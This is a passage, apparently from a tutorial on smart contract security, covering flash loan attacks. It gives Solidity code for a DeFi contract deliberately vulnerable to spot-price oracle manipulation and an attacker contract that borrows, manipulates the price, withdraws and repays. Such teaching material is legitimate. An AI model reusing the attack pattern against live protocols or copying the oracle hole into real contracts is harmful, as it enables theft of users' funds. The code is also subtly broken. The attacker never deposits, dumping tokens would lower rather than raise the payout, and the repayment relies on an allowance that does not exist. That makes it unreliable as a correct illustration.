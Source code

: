 ### 7. Flash Loan Attacks

**Mechanism**: Exploiting price oracles and liquidity within a single transaction.

```solidity
// VULNERABLE DEFI PROTOCOL
contract VulnerableDefi {
    IERC20 public token;
    mapping(address => uint256) public deposits;
    
    function deposit(uint256 amount) public {
        token.transferFrom(msg.sender, address(this), amount);
        deposits[msg.sender] += amount;
    }
    
    function withdraw(uint256 amount) public {
        require(deposits[msg.sender] >= amount, "Insufficient deposit");
        
        // VULNERABILITY: Using spot price for valuation
        uint256 tokenPrice = getTokenPrice();
        uint256 ethValue = (amount * tokenPrice) / 1e18;
        
        deposits[msg.sender] -= amount;
        payable(msg.sender).transfer(ethValue);
    }
    
    function getTokenPrice() public view returns (uint256) {
        // Simplified AMM price calculation
        uint256 tokenBalance = token.balanceOf(address(this));
        uint256 ethBalance = address(this).balance;
        return (ethBalance * 1e18) / tokenBalance;
    }
}

// FLASH LOAN ATTACK
contract FlashLoanAttacker {
    VulnerableDefi defi;
    IERC20 token;
    IFlashLoanProvider flashLoanProvider;
    
    function attack() public {
        // 1. Take flash loan of tokens
        uint256 flashLoanAmount = 1000000 * 1e18;
        flashLoanProvider.flashLoan(address(token), flashLoanAmount, "");
    }
    
    function onFlashLoan(address asset, uint256 amount, bytes calldata data) external {
        // 2. Dump tokens to manipulate price
        token.transfer(address(defi), amount);
        
        // 3. Withdraw at manipulated price
        defi.withdraw(100 * 1e18);  // Withdraw small amount for large ETH value
        
        // 4. Repay flash loan
        token.transferFrom(address(defi), address(flashLoanProvider), amount);
    }
}
```
